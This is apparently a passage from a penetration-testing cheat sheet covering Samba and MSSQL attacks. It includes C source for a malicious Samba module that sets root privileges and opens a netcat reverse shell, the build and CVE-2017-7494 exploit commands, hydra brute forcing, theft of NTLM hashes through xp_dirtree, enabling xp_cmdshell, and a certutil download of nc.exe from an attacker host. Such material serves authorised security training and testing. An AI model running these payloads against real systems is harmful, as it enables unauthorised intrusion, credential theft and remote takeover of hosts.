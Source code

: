 If you reiceve 3 pings on your listener then the exploit works. Now let's get a shell :

```
#include <stdio.h>
#include <stdlib.h>

int samba_init_module(void)
{
	setresuid(0,0,0);
	system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f");
}
```

```
# Build
gcc -o test.so -shared poc.c -fPIC
```

```
# Start a listener
nc -lvp <PORT>

# Exploit
./cve_2017_7494.py -t <TARGET_IP> -u <USER> -P <PASSWORD> --custom=test.so
```

------

## MSSQL - 1433

### Get information

```
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
```

### Brute force

```
hydra -L <USERS_LIST> -P <PASSWORDS_LIST> <IP> mssql -vV -I -u
```

### Having credentials

```
mssqlclient.py -windows-auth <DOMAIN>/<USER>:<PASSWORD>@<IP>
mssqlclient.py <USER>:<PASSWORD>@<IP>

# Once logged in you can run queries:
SQL> select @@ version;

# Steal NTLM hash
sudo smbserver.py -smb2support liodeus .
SQL> exec master..xp_dirtree '\\<IP>\liodeus\' # Steal the NTLM hash, crack it with john or hashcat

# Try to enable code execution
SQL> enable_xp_cmdshell

# Execute code
SQL> xp_cmdshell whoami /all
SQL> xp_cmdshell certutil.exe -urlcache -split -f http://<IP>/nc.exe
```
